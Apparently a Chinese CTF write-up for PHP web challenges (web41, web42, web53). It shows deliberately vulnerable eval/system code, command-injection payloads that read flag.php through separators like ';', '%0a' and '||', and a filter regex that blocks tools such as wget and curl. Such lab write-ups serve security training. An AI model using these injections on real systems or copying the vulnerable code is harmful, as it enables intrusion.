 ### web41

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

数字，字母都被过滤了，还过滤了`$ ^ + ~`自增异或取反都不能用，但这题可以用或

[大佬博客](http://t.csdnimg.cn/WGbm5)，直接用大佬的脚本

![image-20231025115525656](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231025115525656.png)

### web42

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

```
>/dev/null 黑洞,所有内容输入到该文件都会丢失。
```

payload：

```
cat flag.php;ls 让ls的输出丢失，前面命令正常执行
cat flag.php%0a 进行截断,%26,||
```

### web53

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
} 
```
